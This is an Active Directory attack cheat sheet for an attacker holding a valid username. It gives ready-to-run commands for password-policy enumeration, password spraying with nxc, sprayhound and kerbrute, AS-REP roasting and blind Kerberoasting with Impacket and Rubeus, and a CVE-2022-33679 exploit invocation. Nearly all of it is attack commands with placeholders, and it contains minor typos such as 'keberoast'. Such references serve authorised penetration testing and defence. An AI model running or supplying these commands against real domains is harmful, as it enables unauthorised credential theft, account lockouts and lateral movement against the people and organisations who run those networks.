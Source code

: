 # Valid user (no password)

## Password Spray
- Get password policy  (you need creds,but you should get the policy  first to avoid locking accounts)
  - default policy
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol`
[https://www.thehacker.recipes/ad/recon/password-policy](https://www.thehacker.recipes/ad/recon/password-policy)
    - `Get-ADDefaultDomainPasswordPolicy`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy`
  - Fined Policy (Privileged)
    - `ldapsearch-ad.py --server <dc> -d <domain> -u <user> -p <pass> --type pass-pols`
    - `Get-ADFineGainedPasswordPolicy -filter *`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso # can also be runned with a low priv account but less information will be available`
- ⚠️ user == password >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success`
  - `sprayhound -U <users.txt> -d <domain> -dc  <dc_ip>   # add --lower to lowercase and --upper to uppercase. Add nothing to get only user=pass`
- ⚠️ usuals passwords  (SeasonYear!, Company123, ...) >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success`
  - `sprayhound -U <users.txt> -p <password> -d <domain> -dc  <dc_ip>`
  - `kerbrute passwordspray -d <domain> <users.txt> <password>`

## ASREPRoast
- List ASREPRoastable Users (need creds)
  - `MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u`
- ASREP roasting >>> Hash found ASREP
  - `GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile <output.txt>`
  - `nxc ldap <dc_ip> -u <users.txt>  -p '' --asreproast <output.txt>`
  - `Rubeus.exe asreproast /format:hashcat`
- Blind Kerberoasting >>> Hash found TGS
  - `Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>`
  - `GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/`
- CVE-2022-33679 @CVE@ >>> Lat move PTT 
  - `CVE-2022-33679.py <domain>/<user> <target>`
